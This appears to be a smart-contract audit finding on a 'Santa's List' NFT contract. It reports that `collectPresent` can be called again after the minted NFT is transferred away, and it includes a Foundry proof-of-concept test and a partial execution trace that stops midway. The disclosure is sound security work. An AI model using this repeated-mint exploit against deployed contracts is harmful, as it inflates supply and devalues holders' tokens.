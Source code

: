 ### Relevant GitHub Links

https://github.com/Cyfrin/2023-11-Santas-List/blob/main/src/SantasList.sol#L147-L166

## Summary

Verified winners can mint as many presents as they want.

## Vulnerability Details

`Santalist.collectPresent` prevents users from collecting NFTs more than once by checking if they already possess an NFT. This NFTs can be transferred to another EOA and the user will keep minting more.

## Impact

This increases the total supply of the NFTs and make it non-valuable.

#### Test:

```javascript
function testHackCollectPresent() public {
     vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.NICE);
        santasList.checkTwice(user, SantasList.Status.NICE);
     vm.stopPrank();

     vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);
     address user2 = makeAddr("user2");

     vm.startPrank(user);
       for (uint256 i = 0; i < 5; i++) {
          santasList.collectPresent();
          santasList.transferFrom(user, user2, i);
       }
       assertEq(santasList.balanceOf(user2), 5);
     vm.stopPrank();
    }
```

#### Traces:

```zsh
    [274512] SantasListTest::testHackCollectPresent()
    ├─ [0] VM::startPrank(santa: [0x70C9C64bFC5eD9611F397B04bc9DF67eb30e0FcF])
    │   └─ ← ()
    ├─ [4211] SantasList::checkList(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], 0)
    │   ├─ emit CheckedOnce(person: user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], status: 0)
    │   └─ ← ()
    ├─ [4519] SantasList::checkTwice(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], 0)
    │   ├─ emit CheckedTwice(person: user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D], status: 0)
    │   └─ ← ()
    ├─ [0] VM::stopPrank()
    │   └─ ← ()
    ├─ [283] SantasList::CHRISTMAS_2023_BLOCK_TIME() [staticcall]
    │   └─ ← 1703480381 [1.703e9]
    ├─ [0] VM::warp(1703480382 [1.703e9])
    │   └─ ← ()
    ├─ [0] VM::addr(23868421370328131711506074113045611601786642648093516849953535378706721142721 [2.386e76]) [staticcall]
    │   └─ ← user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802]
    ├─ [0] VM::label(user2: [0x537C8f3d3E18dF5517a58B3fB9D9143697996802], "user2")
    │   └─ ← ()
    ├─ [0] VM::startPrank(user: [0x6CA6d1e2D5347Bfab1d91e883F1915560e09129D])
```